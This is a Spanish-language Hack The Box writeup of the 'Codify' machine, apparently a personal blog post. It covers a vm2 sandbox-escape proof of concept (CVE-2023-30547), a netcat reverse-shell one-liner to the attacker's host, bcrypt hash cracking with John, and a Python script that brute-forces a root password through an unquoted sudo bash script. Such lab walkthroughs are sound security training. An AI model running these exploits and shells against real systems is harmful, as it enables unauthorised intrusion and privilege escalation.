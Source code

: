 ```yaml
---
layout: single
title: HTB codify writeup
date: 2023-11-07
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```








<h1>Resumen || </h1><br>
<div style="text-align: justify;">
Codify es una máquina Linux que ejecuta un servidor HTTP y aloja una aplicación web desactualizada. Aprovecharemos las vulnerabilidades en esta aplicación para acceder al sistema, donde descubriremos credenciales encriptadas en formato bcrypt. Estas credenciales pueden ser explotadas de manera sencilla utilizando John The Ripper. Una vez que hayamos obtenido acceso al usuario Joshua, investigaremos cómo vulnerar un código en bash que cuenta con permisos sudo pero no está implementado con todas las medidas de seguridad necesarias. Esto nos permitirá elevar nuestros privilegios al nivel de root.
</div>
<br>
# Reconocimiento

## Puertos

Realizamos un escaneo rápido de puertos y versiones de servicios a la máquina víctima:

```shell
└─$ nmap -p- -sV 10.10.11.239 -T5 -oN nmap.txt -vvv
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175436.png)


## Web

El puerto 80 tiene un servidor http activo: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175901.png)

A simple vista hay tres páginas: `/limitations`, `/about`, `/editor`.

El servidor contiene una aplicación web que permite testear código Node JS. Una Reverse Shell sencilla en este lenguaje no funciona por los módulos restringidos: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180512.png)

La aplicación funciona mediante la libreria vm2 en la versión 3.9.16. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180126.png)
<<<<<<< HEAD


=======
>>>>>>> f6b014c07e068104233fe7bab9e18ffa9b6873d6
# Penetración 

## Web

La versión 3.9.16 de la librería vm2 tiene una vulnerabilidad registrada como [CVE-2023–30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547), que permite escapar de las restricciones del editor. Con ello podemos ejecutar código malicioso y una reverse shell con la que acceder al sistema víctima. 


### Exploit

Haremos uso del siguiente [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244):

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('whoami');
}
`

console.log(vm.run(code));
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107181134.png)

Una vez confirmada la vulnerabilidad, el acceso es ya algo mecánico. Abrimos puerto en escucha: 

```shell
nc -lvp <port>
```

Introducimos una [reverse shell](https://www.revshells.com/) con el siguiente comando: 

```shell 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your ip> <port> >/tmp/f
```



![](/assets/images/HTB-writeup-codify/Pasted image 20231107181459.png)

Una vez dentro, vamos a necesitar, por comodidad, una shell con todas sus funciones. Habrá que ejecutar lo siguiente: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

En `/home` vemos un usuario posiblemente vulnerable: `joshua`
En `/var/www/contact` hay un archivo SQLite con un hash en bcrypt. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182336.png)

Con John The Ripper se tarda menos de treinta segundos en hacerse cargo de ella: 

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```


# Acceso y Escalada de Privilegios

```shell
ssh joshua@10.10.11.239
```

Aquí está la flag `user.txt`.

Para escalar privilegios vamos a revisar qué puede hacer nuestro usuario Joshua: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182843.png)

Parece ser que podemos ejecutar un comando con permisos sudo que pregunta por la contraseña root. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183231.png)

Está programado con ciertas vulnerabilidades de seguridad. Al no estar las variables entre comillas, nos permite realizar que se lean como comandos y no sólo como variables.

El camino fácil es construir un script en python que automatice el trabajo de fuerza bruta. 

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Lo creamos en `/tmp`, le damos permisos de ejecución y nos da la contraseña en cuestión de minutos. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183856.png)
